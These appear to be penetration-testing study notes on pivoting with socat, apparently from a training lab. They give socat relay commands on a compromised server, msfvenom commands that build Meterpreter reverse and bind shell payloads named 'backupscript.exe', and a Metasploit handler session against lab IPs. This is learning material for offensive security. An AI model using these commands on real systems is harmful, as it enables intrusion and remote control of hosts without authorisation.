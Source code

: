 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port
#### Port Forward 
Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our compromised server.
```shell
socat TCP4-LISTEN:8080,fork TCP4:<AttackerIP>:80

socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=80
```

#### Socat Redirection with a Bind Shell
This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.
![[Pasted image 20250123074431.png]]
Create payload
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
On compromised server
```shell
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run
```